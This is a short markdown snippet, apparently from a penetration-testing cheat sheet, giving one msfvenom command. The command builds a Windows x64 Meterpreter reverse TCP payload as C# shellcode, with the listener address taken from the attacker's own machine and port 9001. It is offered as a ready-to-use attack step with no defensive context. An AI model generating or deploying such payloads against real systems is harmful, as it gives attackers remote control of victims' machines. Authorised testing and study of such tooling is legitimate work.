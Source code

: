 
## Msfvenom

#### Windows x64
- meterpreter reverse tcp
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(hostname -I | cut -d' ' -f1) LPORT=9001 EXITFUNC=thread -f csharp
```